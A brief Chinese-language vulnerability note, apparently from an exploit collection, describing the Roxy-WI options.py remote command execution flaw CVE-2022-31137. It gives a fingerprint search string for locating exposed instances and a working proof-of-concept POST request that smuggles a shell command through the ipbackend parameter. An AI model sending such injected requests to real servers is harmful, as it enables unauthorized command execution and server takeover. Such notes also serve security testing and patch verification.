

# Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

<a-checkbox checked>Roxy-WI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HAProxy-WI"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```php
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

